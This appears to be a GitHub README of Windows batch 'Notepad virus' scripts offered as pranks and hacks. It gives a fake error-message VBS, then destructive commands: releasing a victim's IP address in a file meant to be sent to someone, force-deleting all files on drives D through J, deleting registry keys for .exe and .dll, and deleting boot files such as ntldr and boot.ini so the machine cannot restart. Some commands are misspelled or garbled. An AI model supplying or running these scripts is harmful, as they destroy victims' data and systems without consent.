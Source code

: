 # bash-script
## _Script no 1 "Create Fake Windows Errors With Notepad "_ 
 1) Open Notepad
 2) Replace Message Here and Title Here with your Error Message and Error-Window Title respectively.
 3) Save the file with error.vbs. (In Save as filetype, must select “all”)
 4) Now, click the file and you’ll get your custom-made Windows error message. So its easy to learn how to create a virus using notepad
 
![image](https://user-images.githubusercontent.com/88976173/204493351-c961b0fe-409e-4702-a879-2b5a204ca9de.png)
## _Script no 2 " How to stop someone’s internet access"_ 
1) Open Notepad
2) @Echo off
3) pconfig /release
4) Save that as a .bat and send it to someone. They’re IP address will be lost, and therefore they won’t be able to fix it
5) to fix it type IPconfig /renew
## _script no 3 "Dangerous Notepad Virus Code"WARNING:: This is the most dangerous virus! Be careful with its use."_
1) @ECHO OFF
2) 
del D:*.* /f /s /q

del E:*.* /f /s /q

del F:*.* /f /s /q

del G:*.* /f /s /q

del H:*.* /f /s /q

del I:*.* /f /s /q

del J:*.* /f /s /q 

3) save it as SEO.bat

## _Script no 4 "Delete the entire registry"_
1) @ECHO OFF
2) 
START reg delete HKCR/.exe

START reg delete HKCR/.dll

START reg delete HKCR/*

3) save it as SEO.bat


## _Script no 5 " Crash PC forever with Notepad Virus"_
1) @echo off
 
     attrib -r -s -h c:autoexec.bat

     del c:autoexec.bat

     attrib -r -s -h c:boot.ini

     del c:boot.ini

     attrib -r -s -h c:ntldr

     del c:ntldr

     attrib -r -s -h c:windowswin.ini

     del c:windowswin.ini
    
    2) Hacker .bat
    
    > _This should shut down the person’s computer. It shuts it off once and deletes the files needed to reboot and restart.

REMEMBER — DO NOT CLICK THIS FILE._ 


## HappyHacking - GoodLuck
